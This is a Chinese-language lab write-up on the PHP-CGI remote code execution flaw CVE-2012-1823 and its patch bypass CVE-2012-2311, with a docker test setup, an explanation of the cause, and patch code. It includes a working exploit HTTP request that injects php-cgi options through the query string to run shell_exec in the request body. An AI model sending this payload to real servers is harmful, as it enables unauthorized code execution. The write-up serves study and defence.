

# PHP-CGI远程代码执行漏洞（CVE-2012-1823）

## 原理

 - 参考文章 http://eindbazen.net/2012/05/php-cgi-advisory-cve-2012-1823/
 - 影响版本 php < 5.3.12 or php < 5.4.2

## 测试环境

编译及运行环境：

```
docker-compose build
docker-compose up -d
```

环境启动后，访问`http://your-ip/`可见“Hello php”字样。

访问`http://your-ip/index.php?-s`即爆出源码，说明漏洞存在。发送如下数据包，可见Body中的代码已被执行：

```
POST /index.php?-d+allow_url_include%3don+-d+auto_prepend_file%3dphp%3a//input HTTP/1.1
Host: example.com
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 31

<?php echo shell_exec("id"); ?>
```

## 漏洞解读

### PHP SAPI 与运行模式

首先，介绍一下PHP的运行模式。

下载PHP源码，可以看到其中有个目录叫sapi。sapi在PHP中的作用，类似于一个消息的“传递者”，比如我在《[Fastcgi协议分析 && PHP-FPM未授权访问漏洞 && Exp编写](https://www.leavesongs.com/PENETRATION/fastcgi-and-php-fpm.html)》一文中介绍的fpm，他的作用就是接受Web容器通过fastcgi协议封装好的数据，并交给PHP解释器执行。

除了fpm，最常见的sapi应该是用于Apache的mod_php，这个sapi用于php和apache之间的数据交换。

php-cgi也是一个sapi。在远古的时候，web应用的运行方式很简单，web容器接收到http数据包后，拿到用户请求的文件（cgi脚本），并fork出一个子进程（解释器）去执行这个文件，然后拿到执行结果，直接返回给用户，同时这个解释器子进程也就结束了。基于bash、perl等语言的web应用多半都是以这种方式来执行，这种执行方式一般就被称为cgi，在安装Apache的时候默认有一个cgi-bin目录，最早就是放置这些cgi脚本用的。

但cgi模式有个致命的缺点，众所周知，进程的创建和调度都是有一定消耗的，而且进程的数量也不是无限的。所以，基于cgi模式运行的网站通常不能同时接受大量请求，否则每个请求生成一个子进程，就有可能把服务器挤爆。于是后来就有了fastcgi，fastcgi进程可以将自己一直运行在后台，并通过fastcgi协议接受数据包，执行后返回结果，但自身并不退出。

php有一个叫php-cgi的sapi，php-cgi有两个功能，一是提供cgi方式的交互，二是提供fastcgi方式的交互。也就说，我们可以像perl一样，让web容器直接fork一个php-cgi进程执行某脚本；也可以在后台运行`php-cgi -b 127.0.0.1:9000`（php-cgi作为fastcgi的管理器），并让web容器用fastcgi协议和9000交互。

那我之前说的fpm又是什么呢？为什么php有两个fastcgi管理器？php确实有两个fastcgi管理器，php-cgi可以以fastcgi模式运行，fpm也是以fastcgi模式运行。但fpm是php在5.3版本以后引入的，是一个更高效的fastcgi管理器，其诸多优点我就不多说了，可以自己去翻翻源码。因为fpm优点更多，所以现在越来越多的web应用使用php-fpm去运行php。

### 历史成因

回到本漏洞。CVE-2012-1823就是php-cgi这个sapi出现的漏洞，我上面介绍了php-cgi提供的两种运行方式：cgi和fastcgi，本漏洞只出现在以cgi模式运行的php中。

这个漏洞简单来说，就是用户请求的querystring被作为了php-cgi的参数，最终导致了一系列结果。

探究一下原理，[RFC3875](http://www.ietf.org/rfc/rfc3875)中规定，当querystring中不包含没有解码的`=`号的情况下，要将querystring作为cgi的参数传入。所以，Apache服务器按要求实现了这个功能。

但PHP并没有注意到RFC的这一个规则，也许是曾经注意并处理了，处理方法就是web上下文中不允许传入参数。但在2004年的时候某个开发者发表过这么一段言论：

```
From: Rasmus Lerdorf <rasmus <at> lerdorf.com>
Subject: [PHP-DEV] php-cgi command line switch memory check
Newsgroups: gmane.comp.php.devel
Date: 2004-02-04 23:26:41 GMT (7 years, 49 weeks, 3 days, 20 hours and 39 minutes ago)
 
In our SAPI cgi we have a check along these lines:
 
    if (getenv("SERVER_SOFTWARE")
        || getenv("SERVER_NAME")
        || getenv("GATEWAY_INTERFACE")
        || getenv("REQUEST_METHOD")) {
        cgi = 1;
    }
 
    if(!cgi) getopt(...)
 
As in, we do not parse command line args for the cgi binary if we are 
running in a web context.  At the same time our regression testing system 
tries to use the cgi binary and it sets these variables in order to 
properly test GET/POST requests.  From the regression testing system we 
use -d extensively to override ini settings to make sure our test 
environment is sane.  Of course these two ideas conflict, so currently our 
regression testing is somewhat broken.  We haven't noticed because we 
don't have many tests that have GET/POST data and we rarely build the cgi 
binary.
 
The point of the question here is if anybody remembers why we decided not 
to parse command line args for the cgi version?  I could easily see it 
being useful to be able to write a cgi script like:
 
  #!/usr/local/bin/php-cgi -d include_path=/path
  <?php
      ...
  ?>
 
and have it work both from the command line and from a web context.
 
As far as I can tell this wouldn't conflict with anything, but somebody at 
some point must have had a reason for disallowing this.
 
-Rasmus
```

显然，这位开发者是为了方便使用类似`#!/usr/local/bin/php-cgi -d include_path=/path`的写法来进行测试，认为不应该限制php-cgi接受命令行参数，而且这个功能不和其他代码有任何冲突。

于是，`if(!cgi) getopt(...)`被删掉了。

但显然，根据RFC中对于command line的说明，命令行参数不光可以通过`#!/usr/local/bin/php-cgi -d include_path=/path`的方式传入php-cgi，更可以通过querystring的方式传入。

这就是本漏洞的历史成因。

### 漏洞利用

那么，可控命令行参数，能做些什么事。

通过阅读源码，我发现cgi模式下有如下一些参数可用：

 - `-c` 指定php.ini文件的位置
 - `-n` 不要加载php.ini文件
 - `-d` 指定配置项
 - `-b` 启动fastcgi进程
 - `-s` 显示文件源码
 - `-T` 执行指定次该文件
 - `-h`和`-?` 显示帮助

最简单的利用方式，当然就是`-s`，可以直接显示源码：


但阅读过我写的fastcgi那篇文章的同学应该很快就想到了一个更好的利用方法：通过使用`-d`指定`auto_prepend_file`来制造任意文件包含漏洞，执行任意代码：



注意，空格用`+`或`%20`代替，`=`用url编码代替。

### CVE-2012-2311

这个漏洞被爆出来以后，PHP官方对其进行了修补，发布了新版本5.4.2及5.3.12，但这个修复是不完全的，可以被绕过，进而衍生出CVE-2012-2311漏洞。

PHP的修复方法是对`-`进行了检查：

```c
if(query_string = getenv("QUERY_STRING")) {
	decoded_query_string = strdup(query_string);
	php_url_decode(decoded_query_string, strlen(decoded_query_string));
	if(*decoded_query_string == '-' && strchr(decoded_query_string, '=') == NULL) {
		skip_getopt = 1;
	}
	free(decoded_query_string);
}
```

可见，获取querystring后进行解码，如果第一个字符是`-`则设置skip_getopt，也就是不要获取命令行参数。

这个修复方法不安全的地方在于，如果运维对php-cgi进行了一层封装的情况下：

```
#!/bin/sh

exec /usr/local/bin/php-cgi $*
```

通过使用空白符加`-`的方式，也能传入参数。这时候querystring的第一个字符就是空白符而不是`-`了，绕过了上述检查。

于是，php5.4.3和php5.3.13中继续进行修改:

```c
if((query_string = getenv("QUERY_STRING")) != NULL && strchr(query_string, '=') == NULL) {
	/* we've got query string that has no = - apache CGI will pass it to command line */
	unsigned char *p;
	decoded_query_string = strdup(query_string);
	php_url_decode(decoded_query_string, strlen(decoded_query_string));
	for (p = decoded_query_string; *p &&  *p <= ' '; p++) {
		/* skip all leading spaces */
	}
	if(*p == '-') {
		skip_getopt = 1;
	}
	free(decoded_query_string);
}
```

先跳过所有空白符（小于等于空格的所有字符），再判断第一个字符是否是`-`。